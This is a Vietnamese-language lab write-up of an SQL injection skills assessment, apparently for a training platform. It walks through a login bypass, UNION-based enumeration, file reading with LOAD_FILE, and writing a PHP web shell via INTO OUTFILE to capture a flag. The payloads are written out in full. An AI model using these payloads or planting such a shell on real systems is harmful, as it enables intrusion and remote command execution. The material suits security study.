 <h1>Skills Assessment - SQL Injection Fundamentals</h1>

![image](https://github.com/user-attachments/assets/d9b69a4c-0cbe-4f95-ba76-2e933b8c5ada)

![image](https://github.com/user-attachments/assets/db031969-8215-464d-920a-b9a42be8eb32)

![image](https://github.com/user-attachments/assets/e0999f0d-842a-430d-86f2-0e0f2dcb8bcf)

Sau khi ngồi thử 1 số payloads thì cuối cùng cũng vào được bằng cái `admin' OR 1 = 1 -- a`:

![image](https://github.com/user-attachments/assets/b4abe8c7-2b92-4967-8b29-2e232836a0da)

Và đây là giao diện của nó sau khi tôi đăng nhập bằng SQLi:

![image](https://github.com/user-attachments/assets/5b7b3839-67d0-4be0-a3f5-f3f51ea1ce75)

Bằng cách spam `' ORDER BY 1 -- a` thì tôi biết được nó có 5 cột:

![image](https://github.com/user-attachments/assets/cb8c58e2-1580-4a0a-aebc-d8dbee1d3029)

Để chắc hơn thì tôi dùng `' UNION SELECT 1, user(), 3, 4, 5-- -` để xem:

![image](https://github.com/user-attachments/assets/51afb444-13f0-4c08-9ed4-2303c40eaf11)

Dùng `abc' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -` thì nó bị từ chối, không đủ quyền:

![image](https://github.com/user-attachments/assets/6c0526db-006f-4b97-b8da-29d306562265)

Tôi thử dùng `' UNION SELECT 1, LOAD_FILE("/var/www/html/dashboard/dashboard.php"), 3, 4, 5-- -` để test chức năng đọc file và nó đọc được:

![image](https://github.com/user-attachments/assets/1689ebaf-3d3d-4a00-bdc2-000c49229987)

Nhưng mà đọc trong /root thì cần pass của root nữa, tôi thử lại cái lệnh write 1 file vào nhưng là trong dashboard thì được `abc' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -` :

![image](https://github.com/user-attachments/assets/d242c9b8-9d2e-4d97-96c4-64f1adaa8d34)

![image](https://github.com/user-attachments/assets/61811283-3d9a-4432-b8a4-f6496751cefe)

Flag đây rồi:

![image](https://github.com/user-attachments/assets/f08b3c0c-5cbe-4b8f-830c-86c29137ed81)

![image](https://github.com/user-attachments/assets/029ce8af-f6cb-4c8a-85c4-69d5c3049ce7)
